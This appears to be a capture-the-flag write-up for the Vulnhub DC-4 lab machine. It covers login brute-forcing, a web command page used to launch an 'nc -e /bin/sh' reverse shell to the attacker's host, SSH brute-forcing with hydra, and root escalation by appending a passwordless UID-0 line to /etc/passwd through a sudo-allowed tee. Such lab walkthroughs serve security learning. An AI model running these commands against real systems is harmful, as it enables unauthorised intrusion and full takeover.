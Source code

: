 ```yaml
---
layout: post
title: Vulnhub - DC4 writeup
date: 2019-07-11 1:13
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/dc-4,313/">DC5</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/DCAU7/">DCAU</a></h4>

***

## Nmap

![](images/dc4/nmap.png)

Looks like it's going to be one of those machine in which you don't have to think about where to start.

***

## HTTP

Visiting website gives us a simple form:

![](images/dc4/website.png)

Let's run `dirsearch` on the website:

![](images/dc4/dirsearch.png)

But looks like every page redirects to `index.php`. But we can use command line tools to see what is on that page. I used [httpie](https://httpie.org/)
to see the source of `command.php`.

![](images/dc4/no-redirect.png)

We can see that we can run multiple commands on that page etc but we need to be logged in to be able to do anything.

Since there's no way to do anything other then login so let's just brute force the credentials.

I decided to use burp suite intruder to do so.

![](images/dc4/credentials.png)

I got hit on multiple passwords. The one I used to login was `admin:54321`

After login I got a page that had the URL to `/command.php`

![](images/dc4/command.png)

I tried running the commands that where present there.

![](images/dc4/run-cmd.png)

Since we can run commands that means we can have reverse shell easily.

I intercepted the command request in burp and then sent the `netcat` command for reverse shell i.e `nc -e /bin/sh IP PORT` and got a reverse shell.

![](images/dc4/request.png)

![](images/dc4/shell.png)

For TTY shell:

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```

***

* Time for **System enumeration**.

I ran `Enumeration script` to see if I can find anything interesting about the system.

I found some users:

![](images/dc4/users.png)

and a SUID in `Jim's` directory

![](images/dc4/suid.png)

I tried running that suid and got the following output:

![](images/dc4/output.png)

and `cat` showed that it had the following code in it:

![](images/dc4/code.png)

I think this is simple that we need to just edit that `test.sh` and get us a root shell. But the problem is we can't simply edit the file because we don't have the permission to do so.

I looked around in the `jim's` directory and saw a file named `mbox` for which we didn't had permission to read and a directory named `backups`

![](images/dc4/directory.png)

In the `backups` folder there was a file named `old-password.bak` which we could read and had lots of password.

![](images/dc4/passwords.png)

Maybe we can use these to login via `Jim's` SSH and then edit that file.

I downloaded that list and used hydra to bruteforce the credentials.

After few minutes hydra got a hit:

![](images/dc4/jim-ssh.png)

***

I logged in and edited the `test.sh` to get us a shell but it didn't worked.
But this time I was able to cat the `mbox` file.

![](images/dc4/mbox.png)

This looks like an email. So let's check out the `/var/mail` folder to see if we find anything (otherwise we'll run good old enum script :-) )

In the `/var/mail` folder I found an email to `charles`:

![](images/dc4/mail.png)

As we can see there's a password and a username i.e `charles` we can simply change our account to that of charles.

`charles:^xHhA&hvim0y`

![](images/dc4/su.png)

***

After I didn't found anything running the `enumeration` script I decided to see if I(`charles`) had any `sudo` right.

![](images/dc4/sudo.png)

`Charles` can run `teehee` with sudo rights.

Basically `teehee` can copy standard input to the file of our choice.

![](images/dc4/teehee.png)

We can simply add a user in the `/etc/passwd` without any password and have that user power of `root`. Something like `mzfr::0:0:::/bin/sh`

```bash
echo "mzfr::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
```

![](images/dc4/root-shell.png)

Then get the flag.

![](images/dc4/flag.png)

__NOTE__: If you have doubt in the `/etc/passwd` entry part then read [understanding-etcpasswd-file-format](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/)


